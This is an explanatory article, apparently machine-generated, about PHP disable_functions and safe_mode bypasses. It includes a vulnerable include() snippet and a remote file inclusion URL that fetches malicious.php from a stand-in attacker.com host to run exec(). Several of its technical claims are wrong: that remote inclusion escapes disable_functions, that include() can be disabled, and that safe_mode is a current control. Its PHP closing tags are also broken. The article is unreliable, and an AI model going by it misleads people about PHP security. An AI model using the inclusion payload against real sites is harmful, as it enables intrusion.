 # disable_functions bypass - PHP Perl Extension Safe_mode Bypass Exploit


# 👉 Overview

---

### 👀 What ?

Disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit is a cybersecurity issue where an attacker may exploit certain functions in PHP and Perl programming languages that are supposed to be restricted or disabled for security purposes. This exploit allows the attacker to bypass the usual safe_mode restrictions applied to PHP and Perl scripts, potentially causing significant security breaches.


### 🧐 Why ?

Understanding the disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit is crucial because it represents a significant security vulnerability. If exploited, it allows the attacker to execute arbitrary code and override the security restrictions instituted in the system. Hence, it is essential for developers, system administrators, and even users to be aware of this issue and learn how to mitigate it.


### ⛏️ How ?

To mitigate this type of exploit, it is recommended to ensure that the PHP and Perl scripts are securely written and regularly audited. This includes disabling functions that can potentially be exploited and enforcing safe_mode restrictions. Moreover, regular updates of the PHP and Perl extensions should be conducted to patch any known vulnerabilities. Security tools can also be used to scan and detect any potential security breaches.


### ⏳ When ?

The issue of disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit was first discovered and documented around the early 2000s with the rise of PHP and Perl as popular scripting languages for web development. Since then, various patches and security measures have been developed to address this issue.


# ⚙️ Technical Explanations

---

The disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit take advantage of a feature in the PHP and Perl programming languages that allows certain functions to be disabled for security reasons. When these functions are disabled, they are supposed to be inaccessible to scripts running on the server. However, this exploit allows an attacker to bypass these restrictions and call these functions anyway.

This exploit works through a combination of other functions or extensions that have their own execution capabilities. These are typically functions or extensions that are not intended to be used for executing code, but can be exploited to do so. For instance, an extension might allow a script to read a file from the server, and the attacker could use this to read a file that contains a function call to one of the disabled functions.

Once the safe_mode is bypassed, the attacker can execute arbitrary code, gaining the same privileges as the script that was exploited. This potentially allows the attacker to gain unauthorized access to sensitive data or even take control over the entire system.

Mitigation strategies for this exploit include ensuring that scripts are securely written and regularly audited, disabling any functions or extensions that could be exploited in this way, enforcing safe_mode restrictions, and keeping PHP and Perl up to date with the latest security patches. In addition, using security tools to scan for and detect potential exploits can help to catch any attempts to use this exploit before any damage is done.

Consider a scenario where an attacker wants to execute a disabled function, for instance `exec()`, a function often disabled in PHP for security reasons as it allows execution of external programs. The attacker might exploit a file-reading extension to read a PHP file that contains a call to `exec()`.

For instance, consider a PHP script that reads a file from the user:

```php
<?php
    $file = $_GET['filename'];
    include($file);
?

```

This script could be exploited by passing a URL-encoded path to a malicious PHP script:

```
<http://target.com/vulnerable.php?filename=http%3A%2F%2Fattacker.com%2Fmalicious.php

```

The `malicious.php` file could contain a call to the `exec()` function:

```php
<?php
    exec("arbitrary command");
?

```

In this scenario, the `include()` function in the vulnerable script executes the `exec()` function contained in the malicious file, bypassing the `disable_functions` directive that would normally disable `exec()`.

To mitigate this, disable risky functions and extensions, audit your code regularly, enforce safe_mode restrictions, and keep PHP up-to-date. For instance, you could disable the `include()` function or restrict it to only include local files.

Additionally, utilize security tools to scan for and detect potential exploits. Always ensure that user-supplied input is properly sanitized and validated to prevent any malicious inputs. Use PHP's built-in functions such as `filter_var()` to sanitize user input.
